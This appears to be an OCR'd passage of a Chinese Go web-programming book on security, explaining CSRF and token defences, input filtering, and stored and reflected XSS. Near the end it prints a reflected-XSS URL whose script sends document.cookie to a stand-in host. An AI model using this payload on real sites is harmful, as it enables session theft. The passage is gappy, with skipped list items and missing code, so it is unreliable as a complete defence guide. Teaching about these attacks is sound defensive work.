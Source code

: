 通过示例我们可以看出 json-rpc 是基于 TCP 协议实现的，目前它还不支持 HTTP方式。

### 9.1 预防CSRF攻击

CSRF（Cross-Site Request Forgery），跨站请求伪造，也被称为one click attack/session riding，缩写为CSRF/XSRF。
那么CSRF到底能够干什么呢？可以简单理解为：攻击者可以盗用你的登录信息，以你的身份模拟发送各种请求。攻击者只要借助少许的社会工程学的诡计，例如通过QQ 等聊天软件发送的链接（有些还伪装成短域名，用户无法分辨），攻击者就能迫使Web应用的用户去执行攻击者预设的操作。

例如，当用户登录网络银行去查看其存款余额，在他没有退出时，就点击了一个QQ好友发来的链接，那么该用户银行账户中的资金就有可能被转移到攻击者指定的账户中。

要完成一次CSRF攻击，受害者必须依次完成两个步骤。
1.登录受信任网站A，并在本地生成Cookie 。
2.在不退出A的情况下，访问危险网站B。

但你不能保证以下情况不会发生。
● 你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站，尤其是现在浏览器都是支持多tab的。
● 你不能保证你关闭浏览器了后，本地的 Cookie立刻过期，上次的会话已经结束。
● 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。

Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

这样处理后，因为我们限定了修改只能使用POST，当GET方式请求时就拒绝响应，所以上面图示中 GET 方式就可以防止 CSRF 的攻击，但这样就能全部解决问题了吗？当然不是，因为POST也是可以模拟的。

1.为每个用户生成一个唯一的cookie token，所有表单都包含同一个伪随机值，这种方案最简单，因为理论上攻击者不能获得第三方的Cookie，所以表单中的数据也就构造失败，但是由于用户的Cookie很容易由于网站的XSS漏洞而被盗取，所以这个方案必须在没有XSS的情况下才安全。

3.不同的表单包含一个不同的伪随机值，我们在第4.4节介绍“防止多次递交表单”时介绍过此方案，复用相关代码，实现如下。
生成随机数token。

### 9.2 确保输入过滤

知道数据来源之后，就可以过滤它了。过滤是一个有点正式的术语，它在平时表述中有很多同义词，如验证、清洁及净化。尽管这些术语表面意义不同，但它们都是指同一个处理：防止非法数据进入应用。

CleanMap := make(map[string]interface{}, 0)￼

### 9.3 避免XSS攻击

动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting，安全专家们通常将其缩写成XSS）的威胁，而静态站点则完全不受其影响。

XSS攻击：跨站脚本攻击（Cross-Site Scripting），为了不和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS。XSS 是一种常见的Web安全漏洞，它允许攻击者将恶意代码植入到提供给其他用户使用的页面中。不同于大多数攻击（一般只涉及攻击者和受害者），XSS涉及三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 Cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程可以简单描述为：恶意用户的 Html 输入Web程序→进入数据库→Web程序→用户浏览器。另一类是反射型XSS，主要做法是将脚本代码加入 URL 地址的请求参数，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

● 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻击者）用户的身份执行一些管理动作，或执行发微博、加好友、发私信等常规操作，新浪微博就曾遭遇过一次XSS。

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入 HTML 代码（最主要的是“>”、“<”），并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

那么恶意用户是如何盗取Cookie的呢 与上类似，如下这样的URL：http://127.0.0.1/? name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.co okie&#60;/script&#62;，可以把当前的 Cookie 发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？是的，这类URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的 URL 通过某些途径传播开来，不明真相的用户一旦点击了这样的URL，相应Cookie数据就被发送到事先设定好的站点，这样就盗得了用户的Cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取该用户的账户。
